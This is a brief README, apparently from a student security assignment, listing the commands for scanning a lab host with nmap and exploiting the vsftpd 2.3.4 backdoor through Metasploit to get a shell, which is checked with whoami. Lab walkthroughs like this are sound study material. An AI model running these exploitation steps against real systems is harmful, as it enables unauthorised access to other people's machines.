 # IS-IA-2

The Security Tool Used for the IS IA-2 IS MetaSploit

The report link : 

the youtube video: 

commands

install Metasploit
sudo apt install metasploit-framework

Scan the tagret network using Nmap to find open ports 
nmap 192.168.0.119

Run metasploit
sudo msfconsole

search for the version to find a particular exploit
search vsftpd

run the exploit
use exploit/unix/ftp/vsftpd_234_backdoor
show options

adding IP to the remote hosts
set RHOSTS  192.168.0.119
show options

Set the payload
set payload cmd/unix/interact

Start the exploit
exploit

Check if we gained the access
whoami



